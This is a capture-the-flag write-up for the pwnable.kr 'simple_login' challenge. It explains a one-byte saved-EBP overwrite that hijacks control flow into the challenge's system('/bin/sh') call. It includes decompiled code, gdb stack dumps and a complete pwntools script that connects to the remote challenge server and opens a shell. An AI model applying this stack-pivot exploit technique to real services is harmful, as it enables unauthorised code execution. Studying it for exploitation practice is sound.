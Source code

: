 
pwnable.kr - simple_login solution with only one byte overflow 


I only saw writeups using the full four bytes overflow to fully
control EBP. In this writeup I'll show you how to get RCE with 
a single byte overflow.
The idea is that we have an 8 byte buffer followed by *EBP in 
which we are able to write up to 12 bytes. Hence we can get
control of EBP. But, just overflowing the LSB of *EBP is enough 
for RCE.

main()
```c
  printf("Authenticate : ");
  __isoc99_scanf(&DAT_080da6b5,local_32);
  memset(input,0,0xc);
  local_38 = (void *)0x0;
  DECODED_LENGTH = Base64Decode(local_32,&local_38);  // 1
  if (DECODED_LENGTH < 13) {                          // 2
    memcpy(input,local_38,DECODED_LENGTH);
    iVar1 = auth(DECODED_LENGTH);                     // 3
    if (iVar1 == 1) {
      correct();
     
      
```


User input is base64 decoded [1]. The length is checked to be < 13 [2].
If length is < 13, we call auth()


```c
bool auth(size_t param_1)
{
  int iVar1;
  undefined local_18 [8];
  char *local_10;
  undefined auStack12 [8];
  
  memcpy(auStack12,input,param_1);            // 1
  local_10 = (char *)calc_md5(local_18,0xc);
  printf("hash : %s\n",local_10);
  iVar1 = strcmp("f87cd601aa7fedca99018a8be88eda34",local_10);
  return iVar1 == 0;
}
```


Here we clearly have an overflow. The buffer is only 8 bytes in size
and we can write up to 12 bytes into it [1]. Looking at this in gdb
shows, that the auStack12 var is followed by *EBP. Hence this allows
us to get control over EBP which let's us modify the control flow.


```bash 
(gdb) disassemble 
Dump of assembler code for function auth:
    <snip>
 => 0x080492ba <+30>:	call   0x8069660 <memcpy>
(gdb) x/wx $ebp
0xffffce38:	0xffffce88      // 1
```


Before the memcpy *EBP is 0xffffce88 [1], make a mental note of 
that value. 
Our stack looks like this.

```bash
(gdb) x/20wx $esp
0xffffce10:	0xffffce30	0x0811eb40	0x00000009	0x08120aa8
0xffffce20:	0x08120aa8	0x081209e8	0x00000009	0x00000009
0xffffce30:	0x080481d0	0x00000000	0xffffce88	0x08049407      // here we have our 0xffffce88
0xffffce40:	0x00000009	0x081209b8	0x00000009	0x00000000
0xffffce50:	0x00000001	0xffffcf14	0x081209b8	0x37370001
```


Setting the next breakpoint just after the memcpy and looking
at the stack and EBP again.

```bash
(gdb) x/wx $ebp
0xffffce38:	0xffffce2c      // see how this value changed?
(gdb) x/20wx $esp
0xffffce10:	0xffffce30	0x0811eb40	0x00000009	0x08120aa8
0xffffce20:	0x08120aa8	0x081209e8	0x00000009	0x00000009
0xffffce30:	0xdeadbeef	0x35333232	0xffffce2c	0x08049407      // here you can see the overflow happen
0xffffce40:	0x00000009	0x081209b8	0x00000009	0x00000000
0xffffce50:	0x00000001	0xffffcf14	0x081209b8	0x37370001
```


As you might have observed, we wrote our user input starting
at address 0xffffce30 and overflowed into the LSB of *EBP.
The user input was base64(p32(0xdeadbeef) + "2235\x2c".
And the "\x2c" was the value which overwrote the LSB of *EBP.
After we now leave the auth() function and get into main() again,
the stack around EBP looks like this:

```bash
Breakpoint 2, 0x08049407 in main ()
(gdb) x/20wx $ebp
0xffffce2c:	0x081209e8	0xdeadbeef	0x35333232	0xffffce2c
<snip>
```


Now if the leave instruction is executed at the end of the main() function
ESP points at our 0xdeadbeef value:
```bash
(gdb) disassemble 
Dump of assembler code for function main:
   <snip>
   0x08049424 <+279>:	leave  
=> 0x08049425 <+280>:	ret    
(gdb) x/2wx $esp
0xffffce30:	0xdeadbeef	0x35333232
```


And a single step now wants to hand code execution to 0xdeadbeef:
```bash
(gdb) si
0xdeadbeef in ?? ()
```


To get a shell we can simply jump into the middle of the correct
function:
```c
void correct(void)
{
  if (input._0_4_ == -559038737) {
    puts("Congratulation! you are good!");
    system("/bin/sh");        // we want to jmp here
  }
  exit(0);
}
// disassembly
08049276 75 18           JNZ        LAB_08049290
08049278 c7 04 24        MOV        dword ptr [ESP]=>local_2c,s_Congratulation!_yo   = "Congratulation! you are good!" // Here we will jmp to
                 51 a6 0d 08
0804927f e8 4c 30        CALL       puts                                             int puts(char * __s)
                 01 00
08049284 c7 04 24        MOV        dword ptr [ESP]=>local_2c,s_/bin/sh_080da66f     = "/bin/sh"      
                 6f a6 0d 08
0804928b e8 20 20        CALL       system                                           int system(char * __command)
                 01 00
```
Therefore using the input base64(p32(0x08049278 + "WAYN" + "\x2c")) gives you a shell.

The following shows the whole exploit:

```python
from pwn import *
from base64 import b64encode

our_input = p32(0x8049278) + b"2235\x2c"
authcode = b64encode(our_input)

while 1:
    #p = process("./login")
    p = remote("pwnable.kr", 9003)
    p.sendlineafter("Authenticate :", authcode)
    data = p.recvuntil(b"\n")
    try:
        data = p.recvuntil(b"\n")
        print(data)
        if b"Congratulation! you are good!" in data:
            p.interactive()
            break
        else:
            continue
    except:
        continue

```
